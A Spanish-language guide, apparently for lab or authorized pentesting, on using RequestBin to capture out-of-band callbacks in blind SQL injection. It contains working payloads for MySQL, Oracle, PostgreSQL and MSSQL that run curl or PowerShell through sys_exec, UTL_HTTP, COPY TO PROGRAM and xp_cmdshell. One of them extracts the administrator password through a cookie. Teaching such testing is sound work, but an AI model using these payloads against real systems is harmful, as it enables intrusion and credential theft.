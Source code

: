 
---
# Guía: usar RequestBin (requestbin.whapi.cloud) como alternativa OOB para SQLi

En este apartado explicamos los pasos exactos para usar [RequestBin](https://requestbin.whapi.cloud/) como receptor de interacciones out-of-band (OOB) en pruebas de SQL Injection ciega. Incluimos un ejemplo concreto de payload, variantes por motor que provocan peticiones HTTP, y una checklist mínima para documentar la evidencia.

---

## Resumen rápido

Usamos RequestBin cuando la base de datos puede emitir peticiones HTTP y queremos capturar esa interacción en una URL pública. Es útil como alternativa a Burp Collaborator cuando sólo necesitamos OOB HTTP y el entorno permite conexiones externas.

---

## 1 — Flujo paso a paso (1 → 2 → 3)

1. **Crear/obtener la URL de RequestBin.**
    
    - Abrimos `https://requestbin.whapi.cloud/` y generamos una bin; nos devolverá una URL del tipo `http://requestbin.whapi.cloud/<ID>`.
        
2. **Probar la URL desde nuestro equipo.**
    
    - Ejecutamos un curl o un pequeño script para verificar que la bin recibe peticiones:
        
        ```bash
        curl -X POST -d "test=1" "http://requestbin.whapi.cloud/<ID>"
        ```
        
    - Confirmamos en la interfaz de RequestBin que la petición aparece.
        
3. **Construir la payload SQL que haga una petición HTTP al BIN_URL.**
    
    - Elegimos la técnica adecuada según el motor de BD y funciones habilitadas (ver ejemplos abajo).
        
    - Añadimos un identificador único por prueba en la ruta (p. ej. `/test-pos1-<timestamp>`) para correlacionar la evidencia.
        
4. **Enviar la petición al objetivo (inyectar la payload).**
    
    - Inyectamos la payload donde corresponda (cookie, parámetro POST, header), respetando el encoding necesario.
        
5. **Esperar y monitorizar RequestBin.**
    
    - Observamos la llegada de la petición en la bin; guardamos cabeceras, cuerpo y timestamps.
        
6. **Documentar la evidencia.**
    
    - Guardamos captura de la petición HTTP original, la payload inyectada, y la entrada en RequestBin.
        

---

## 2 — Ejemplo práctico (con RequestBin URL de ejemplo)

**BIN de ejemplo:** `http://requestbin.whapi.cloud/1k71bud1`

**Prueba rápida desde cliente (curl):**

```bash
curl -X POST -d "fizz=buzz" http://requestbin.whapi.cloud/1k71bud1
```

Comprobamos en la UI de RequestBin que la petición aparece.

**Ejemplo de payload para inyectar en la cookie `TrackingId` (MySQL con ejecución de comando disponible):**

```
TrackingId=VALOR_ORIGINAL' OR IF((SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='d', sys_exec(CONCAT('curl -s http://requestbin.whapi.cloud/1k71bud1/test-pos1-', (SELECT FLOOR(RAND()*1000000)))), 0) -- -
```

> Nota: `sys_exec` es una UDF no estándar y normalmente no está disponible; este ejemplo muestra el concepto cuando existen UDFs/exec.

---

## 3 — Payloads HTTP OOB conceptuales por SGBD (reemplazar `<BIN_URL>`)

**Oracle (si `UTL_HTTP` está disponible):**

```sql
' OR (SELECT UTL_HTTP.request('http://<BIN_URL>/test-pos1')) FROM dual --
```

**PostgreSQL (si `COPY TO PROGRAM` o extensiones de HTTP están disponibles):**

```sql
'; COPY (SELECT '') TO PROGRAM 'curl -s http://<BIN_URL>/test-pos1' ; --
```

**MySQL (solo si existe UDF / sys_exec o similar):**

```sql
' OR (SELECT sys_exec(CONCAT('curl -s http://', '<BIN_HOST>', '/test-pos1'))) --
```

**MSSQL (si `xp_cmdshell` habilitado):**

```sql
'; EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://<BIN_URL>/test-pos1 -UseBasicParsing"'--
```

**Advertencia:** la disponibilidad de estas técnicas depende de funciones y privilegios del servidor; si no están habilitadas, RequestBin no recibirá nada.

---

## 4 — Cómo construir un identificador único por prueba

Para correlacionar evidencia, añadimos un sufijo único en la ruta cuando sea posible:

```
http://<BIN_HOST>/<ID>/test-pos{POS}-{TIMESTAMP}
```

Ejemplo con shell/curl desde nuestro equipo:

```bash
TS=$(date +%s)
curl -X GET "http://requestbin.whapi.cloud/1k71bud1/test-pos1-${TS}"
```

En la petición SQL incorporamos esa ruta (o la parte final) para relacionar la prueba con el log.

---

## 5 — Checklist mínima para documentar la evidencia

-  URL de RequestBin usada y hora (UTC).
    
-  Payload SQL exacta inyectada (texto tal y como la enviamos, con encoding si corresponde).
    
-  Petición HTTP original hacia el objetivo (captura de Burp/mitmproxy/ZAP) mostrando la cookie/parametro con la payload.
    
-  Entrada en RequestBin (captura del header/body, y timestamp) que coincida con la prueba.
    
-  Notas sobre permisos y entorno (lab, autorización explícita).
    

---

## 6 — Buenas prácticas y precauciones

- No exfiltrar datos sensibles a un servicio público. Para evidencias sensibles usar un servidor propio o Collaborator privado.
    
- Calibrar la payload y probar la URL de BIN antes de inyectar.
    
- URL-encodear la payload cuando la enviemos en cookies o parámetros (p. ej. `'` → `%27`, `;` → `%3B`).
    
- Si el laboratorio bloquea conexiones externas, usar el mecanismo que el lab requiera (por ejemplo Burp Collaborator público).
    

---

## 7 — Ejemplo de cómo incluir la URL en la cookie `TrackingId` (formato)

```
TrackingId=VALOR_ORIGINAL' OR (SELECT UTL_HTTP.request('http://requestbin.whapi.cloud/1k71bud1/test-pos1')) FROM dual --
```

Recordemos que en entornos reales quizá haga falta URL-encodear la carga completa al formarla.

---
